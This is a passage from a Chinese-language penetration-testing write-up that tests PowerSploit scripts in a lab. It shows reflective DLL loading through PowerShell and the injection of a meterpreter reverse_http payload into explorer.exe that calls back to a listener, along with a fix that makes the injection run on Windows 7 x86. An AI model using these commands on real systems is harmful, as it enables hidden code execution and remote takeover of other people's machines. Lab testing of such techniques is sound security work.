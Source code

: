 **测试5：**
    
    
    > 使用Powershell加载DemoDLL.dll
    

在Invoke-ReflectivePEInjection.ps1尾部添加

    
    
    #!powershell
    Invoke-ReflectivePEInjection -PEPath DemoDLL.dll -FuncReturnType WString
    

保存为5-CodeExecution-dll.ps1

在win7 x86下成功加载导出函数WStringFunc()，如图

![这里写图片描述](http://static.wooyun.org//drops/20151117/2015111710551882011.net/20151117164641903)

在win7 x64下，换成64位的DemoDLL，成功，如图

![这里写图片描述](http://static.wooyun.org//drops/20151117/2015111710551917952.net/20151117164648776)

win8 x86成功，略。  
win8 x64成功，略。

# 0x04 Process Injection

* * *

参考地址：  
<https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke--Shellcode.ps1>

## 1、通过powershell向其他进程注入shellcode

**测试6：**
    
    
    > 通过powershell向explorer.exe注入meterpreter
    

在Invoke--Shellcode.ps1尾部添加如下代码，保存为6-Process Injection-Shellcode.ps1

    
    
    #!powershell
    $Proc = Get-Process explorer
    Invoke-Shellcode -ProcessId $Proc.Id -Payload windows/meterpreter/reverse_http -Lhost 192.168.16.245 -Lport 8083 -Verbose
    

在win7 x86下执行报错，如图

![这里写图片描述](http://static.wooyun.org//drops/20151117/2015111710551944421.net/20151117164701494)

通过阅读代码找到错误原因，需要手动指定系统判断，因此需要在337行添加`$64bitCPU = $false`

再次运行，解决问题，meterpreter成功注入到explorer.exe中，如图

![这里写图片描述](http://static.wooyun.org//drops/20151117/2015111710551995915.net/20151117164722810)
